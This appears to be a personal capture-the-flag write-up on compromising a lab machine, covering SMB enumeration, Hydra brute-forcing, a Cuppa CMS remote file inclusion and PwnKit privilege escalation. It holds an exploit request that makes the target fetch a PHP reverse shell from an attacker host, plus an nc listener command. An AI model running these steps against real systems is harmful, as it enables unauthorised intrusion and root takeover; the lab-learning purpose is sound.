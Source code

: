  SquirrelMail 

 1. Recon 
- Port and service scanning: `nmap`
- Directory/file brute-forcing: `dirsearch`, `gobuster`
- Discovered **SquirrelMail**
- Found **SMB** → enumerated users and shares:
  - `enum4linux` → gathered usernames/info
  - `smbmap` → checked permissions, found `log1.txt`, `log2.txt`, `log3.txt`
- Extracted hints from logs for password brute-forcing

---

 2. Access & Authentication (self)
- Used **Hydra** for brute-forcing (usernames from `enum4linux` + `smbmap`)
- Verified login endpoint with **Burp Suite**
- Found valid passwords → logged into SMB with another user
- Discovered a text file with a hint about a hidden directory

---

 3. Web exploitation path (self)
- Navigated to the hidden directory → initially empty
- Ran `ffuf` → found `/administrator/`
- Identified **Cuppa CMS**
- Searched for exploits → found RFI vulnerability in `alertConfigField.php`

Exploit request:
```http
GET /administrator/alerts/alertConfigField.php?urlConfig=http://ip_addres:8080/php-reverse-shell.php
and use comand nc -nlvp 8080
 4. Privilege Escalation (self)

Ran linpeas.sh

Confirmed: Ubuntu 16 vulnerable to PwnKit (CVE-2021-4034)

Exploited PwnKit → privilege escalation successful

Result: root access

 5. Guided steps

After finding SquirrelMail, I followed a walkthrough for orientation

Everything else (SMB, ffuf, Cuppa CMS, reverse shell, PwnKit) was done independently

 6. Notes & Takeaways

With SMB, always run enum4linux + smbmap → often reveals users and useful files

Burp Suite helps not only for exploitation but also to confirm endpoints for Hydra

Older distros (like Ubuntu 16) → good candidates for quick PwnKit escalation

For CMS (e.g., Cuppa), it’s useful to keep a checklist of known vulnerable endpoints
